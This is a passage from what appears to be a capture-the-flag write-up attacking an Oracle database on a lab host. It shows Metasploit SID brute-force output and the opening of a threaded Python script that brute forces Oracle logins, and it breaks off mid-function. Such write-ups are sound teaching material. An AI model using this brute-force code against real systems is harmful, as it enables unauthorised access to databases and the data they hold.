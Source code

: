 

##### metasploit

metasploit found a couple different SIDs:



    msf auxiliary(admin/oracle/sid_brute) > run

    [*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
    [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
    [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
    [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
    [+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
    [*] 10.10.10.82:1521 - Done with brute force...
    [*] Auxiliary module execution completed



So at this point we have four potential SIDs: 'XE', 'XEXDB',
'PLSExtProc', and 'CLRExtProc'.

#### 3 - Guess / bruteforce user and pass

This was more challenging. I tried the odat and metasploit modules, but
didn't get any hits. What I didn't know at the time was that that's
because the odat password list is in all caps.

So I wrote a brute force script in python, using threads, can go pretty
quick:



    #!/usr/bin/env python

    import cx_Oracle
    import sys
    from multiprocessing import Pool

    MAX_PROC = 50
    host = "10.10.10.82"
    sid = "XE"

    def usage():
        print("{} [ip] [wordlist]".format(sys.argv[0]))
        print("  wordlist should be of the format [username]:[password]")
        sys.exit(1)

    def scan(userpass):
        u, p = userpass.split(':')[:2]
        try:
            conn = cx_Oracle.connect('{user}/{pass_}@{ip}/{sid}'.format(user=u, pass_=p, ip=host, sid=sid))
            return u, p, True
        except cx_Oracle.DatabaseError:
            return u, p, False


    def main(host, userpassfile, nprocs=MAX_PROC):
        with open(userpassfile, 'r') as f:
           userpass = f.read().rstrip().replace('\r','').split('\n')

